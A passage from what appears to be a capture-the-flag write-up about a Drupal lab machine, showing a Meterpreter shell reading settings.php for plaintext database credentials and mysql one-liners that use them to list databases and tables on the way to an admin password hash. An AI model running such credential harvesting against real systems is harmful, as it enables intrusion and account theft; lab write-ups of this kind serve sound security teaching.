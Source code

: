 # Database credentials

Drupal often stores the database crednetials in a `settings.php` file which is also the case here.

```
meterpreter > shell
Process 2108 created.
Channel 0 created.
cat /var/www/html/sites/default/settings.php
<?php

/**
 * @file
 * Drupal site-specific configuration file.
...[snip]...
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...[snip]...
```

Since we can neither use python nor script getting a real shell is hard so we use the `-e` in mysql to get information from the database.  Looking through the database as drupaluser we find the hashed password for brucetherealadmin using the drupal database in the users table.

```
mysql -u"drupaluser" -p"CQHEy@9M*m23gBVj" -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema
```

```
mysql -u"drupaluser" -p"CQHEy@9M*m23gBVj" -e "use drupal;show tables;"    
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
...[snip]...
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
```
